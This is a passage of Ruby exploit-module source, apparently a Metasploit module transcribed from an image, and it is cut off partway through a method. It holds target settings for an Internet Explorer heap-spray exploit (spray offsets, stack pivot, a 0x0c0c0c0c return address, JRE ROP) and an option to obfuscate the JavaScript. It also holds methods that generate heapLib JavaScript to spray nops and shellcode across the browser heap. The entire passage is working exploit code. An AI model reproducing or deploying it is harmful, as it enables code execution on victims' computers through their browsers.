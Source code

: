            'SprayCounter' => '0x5fc', # 0x0c0c0c08
           'SprayStackPivot' => '0x600', # 0x0c0c0c10
           'SprayOffset' => '0x606', # 0x0c0c0c1c
           'Offset' => 1052,
           'Ret' => 0x0c0c0c0c,
           'Rop' => :jre,
           'RandomHeap' => true,
          }
         ]
        ],
       'Privileged'     => false,
       'DisclosureDate' => 'Apr 18 2012',
       'DefaultTarget'  => 0))

      register_options(
       [
        OptBool.new('OBFUSCATE', [false, 'Enable JavaScript obfuscation', false])
       ], self.class
      )

     end

     def get_easy_spray(t, js_code, js_nops, js_counter)

      spray = <<-JS
      var heap_obj = new heapLib.ie(0x20000);
      var code = unescape("#{js_code}");
      var nops = unescape("#{js_nops}");
      var counter = unescape("#{js_counter}");

      while (nops.length < 0x80000) nops += nops;

      var offset = nops.substring(0, #{t['SprayCounter']});
      var offset_2 = nops.substring(0, #{t['SprayOffset']} - offset.length - counter.length);
      var block_used = code.length + offset_2.length + counter.length + offset.length;
      var shellcode = offset + counter + offset_2  + code + nops.substring(0, 0x800 - block_used);

      while (shellcode.length < 0x40000) shellcode += shellcode;
      var block = shellcode.substring(0, (0x80000-6)/2);

      heap_obj.gc();
      for (var z=1; z < #{t['SprayBlocks']}; z++) {
       heap_obj.alloc(block);
      }

      JS

      return spray

     end

     def get_aligned_spray(t, js_code, js_nops, js_counter, js_stack_pivot)

      spray = <<-JS
      var heap_obj = new heapLib.ie(0x20000);
      var code = unescape("#{js_code}");
      var nops = unescape("#{js_nops}");
      var counter = unescape("#{js_counter}");
      var stack_pivot = unescape("#{js_stack_pivot}")
